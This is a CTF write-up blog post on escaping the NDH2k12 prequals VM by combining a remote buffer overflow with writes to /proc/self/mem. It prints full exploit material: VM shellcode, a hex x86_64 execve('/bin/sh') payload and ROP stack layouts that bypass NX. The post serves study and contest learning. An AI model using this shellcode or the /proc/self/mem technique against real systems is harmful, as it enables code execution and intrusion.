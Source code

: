 ```yaml
---
title: 'More fun with the NDH2k12 Prequals VM'
date: 2012-03-28T00:00:00+02:00
tags: ["CTF", "writeup", "hacking"]
draft: false
---
```


*This article was co-authored with [Samuel Chevet](http://blog.w4kfu.com/).*

During the Nuit du Hack 2012 Prequals contest, we often had to remote exploit
some services running in a custom VM (which was [recently released on
GitHub](https://github.com/JonathanSalwan/VMNDH-2k12)). After injecting a
shellcode in the services (through a remote stack buffer overflow) we were able
to run VM code, which can execute interesting
syscalls: `read`, `write`, `open`, `exit`, and a lot more. However there was
not a way to directly execute a random x86 binary or to list directories
(no `getdents`), which made it really hard to explore the server filesystem.

After the event ended we got an idea that we could have used to bypass this
security and execute any shell command line on the remote server.
Using `/proc/self/cmdline`, we can get the path to the VM binary and download
it. Then, using `/proc/self/mem` we can replace some symbols from the binary by
our custom x86 code. This method works because without the [grsecurity
patchset](http://grsecurity.net/) `/proc/self/mem` completely overrides NX and
allows writing to read-only memory locations (like `.text`).

<!--more-->

We wrote an exploit
for [`exploit-me2.ndh`](https://blog.lse.epita.fr/articles/5-ndh2k12-prequals-exploit-me2-writeup-port-4004.html) which
does the following thing:

-   First, exploit the buffer overflow by sending a 102 chars string which will
    fill up the 100 bytes buffer and overwrite the stack pointer by the buffer
    start address. The buffer contains a shellcode which will load a second
    stage shellcode to memory. We had to do that because our main shellcode is
    bigger than 100 bytes. This VM code is loaded at offset `0x7800`,
    below `pie_base` to avoid crashing the VM.

-   Then, the second stage exploit opens `/proc/self/mem`, seeks to
    the `op_end` symbol location (VM instruction handler for `END (0x1C)`) and
    writes an `x86_64 execve("/bin/sh")` shellcode at this location. Seeking is
    not an easy task though as we can only manipulate 16 bits values inside the
    VM. Luckily the VM `.text` is at a very low address and we were able to use
    this at our advantage: for example, to seek to `0x4091bc`, we do a loop to
    seek forward `0xFFFF` 64 times then seek forward once more by `0x91fc`.
    After our shellcode replaced the end instruction, we execute
    the `0x1C` opcode to run our code.

Here is the second stage shellcode asm (first stage is really not that
interesting):

```
; Open /proc/self/mem
movb r0, #0x02
movl r1, #str
movb r2, #0x02
syscall
mov r1, r0

movb r0, #0x11  ; SYS_seek
movb r2, #0x0   ; offset
movb r3, #0x0   ; SEEK_SET
syscall

; Seek to 0x40 * 0xFFFF = 0x3fffc0
movl r2, #0xFFFF; offset
movb r3, #0x1   ; SEEK_CUR
movb r5, #0x40
loop:
    movb r0, #0x11  ; SYS_seek
    syscall

    dec r5
    test r5, r5
    jnz loop

; Seek forward to 0x4091bc == 0x40 * 0xFFFF + 0x91fc
movb r0, #0x11
movl r2, #0x91fc
syscall

; Write NULL to the address
movb r0, #0x04
movl r2, #shellcode
movb r3, #0x21
syscall

end ; PWNZORED

str: .asciz "/proc/self/mem"
shellcode:
    4831d248bbff2f62696e2f736848c1eb08534889e74831c050574889e6b03b0f05

```

This exploit works fine when the VM allows execution of writable pages (NX not
enabled). `exploit-me2.ndh` does not uses NX so this exploit works fine to
exploit this binary. However, we were interested to see if we could reproduce
this exploit on an NX enabled binary,
like [`web3.ndh`](https://blog.lse.epita.fr/articles/1-ndh2k12-prequals-web3ndh-writeup-port-4005.html).

The difficulty here is that you obviously can't simply write your VM shellcode
to memory and run it. You need to use ROP technics to run the code you want.
The `web3.ndh` binary contains a lot of interesting functions and gadgets to
ROP to so this was not as hard as expected.

This binary reads a 1020 bytes buffer, which is definitely enough for a simple
shellcode but not enough for our ROP shellcode which can't easily do loops.
This time again we built a two stage exploit: first stage does part of the job
and calls `read(2)` to load a second stage which does the rest of the work.

We built our first stage exploit stack like this:

```
7BF4    /proc/self/mem      # required string constant
    ... padding ...
7DF4    0xBEEF              # /GS canary

7DF6    0x8198              # offset to POP R1; POP R0; RET
7DF8    0x0002              # O_RDWR
7DFA    0x7BF4              # offset to /proc/self/mem
7DFC    0x81CA              # "open" function

7DFE    0x8174              # offset to POP R2; POP R1; RET
7E00    0x0000              # SEEK_SET
7E02    0x0000              # seek to 0
7E04    0x81EA              # "seek" function

[repeated 0x28 times]
        0x82C4              # offset to POP R2; RET
        0xFFFF              # seek 0xFFFF forward
        0x80FF              # offset to POP R3; RET
        0x0001              # SEEK_CUR
        0x81F9              # "lseek" function + 0xF to preserve regs
        0x4242              # dummy for a POP in lseek

7FE6    0x84ED              # "receive data" function
7FE8    0xFFFF              # padding
7FEA    0xFFFF              # padding

```

This does 0x28 / 0x40 of the required seeks, then recalls the vulnerable data
receive function to load the second stage stack which is placed just after on
stdin:

```
7BE0    0xFFFF              # padding
7BE2    0xFFFF              # padding

7BE4    [x86_64 execve(/bin/sh) shellcode + padding]
7DE4    0xBEEF              # /GS canary

7DE6    0x8176              # offset to POP R1; RET
7DE8    0x0003              # hardcoded /proc/self/mem fd (haxx)

[repeated 0x18 times]
        0x82C4              # offset to POP R2; RET
        0xFFFF              # seek 0xFFFF forward
        0x80FF              # offset to POP R3; RET
        0x0001              # SEEK_CUR
        0x81F9              # "lseek" function + 0xF to preserve regs
        0x4242              # dummy for a POP in lseek

7F0A    0x82C4              # POP R2; RET
7F0C    0x91FC              # last required offset
7F0E    0x80FF              # POP R3; RET
7F10    0x0001              # SEEK_CUR
7F12    0x81F9              # "lseek" + 0xF
7F14    0x4242              # dummy for a POP in lseek

7F16    0x82C4              # POP R2; RET
7F18    0x7BE4              # offset to shellcode
7F1A    0x80FF              # POP R3; RET
7F1C    0x0021              # shellcode length
7F1E    0x8193              # "write" syscall in the middle of a function
7F20    0x4242              # dummy for a POP
7F22    0x4242              # dummy for a POP

7F24    0x838c              # offset to END, which executes our x86 expl

    ... padding ...

7FE0    [shell command to execute]

```

Last step is to be able to bypass ASLR + NX. We weren't able to do this yet,
but we are confident that we could do it with some more work.

`/proc/self/mem` is really a powerful attack vector when you have to bypass
things like NX on a vanilla kernel!
